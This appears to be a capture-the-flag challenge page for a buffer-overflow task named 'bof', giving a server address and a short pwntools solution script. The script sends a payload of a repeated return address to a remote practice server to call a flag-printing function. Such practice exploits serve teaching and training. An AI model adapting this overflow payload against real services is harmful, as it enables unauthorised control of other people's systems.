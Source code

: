#### Goals
 * Try to find the flag

#### Server Address
 * http://pwn.sniperoj.com:20002/

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./bof")
Io = remote("www.sniperoj.cn", 30000)
cat_flag_addr = p64(0x0000000000400616)
payload = cat_flag_addr * 4
Io.send(payload)
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

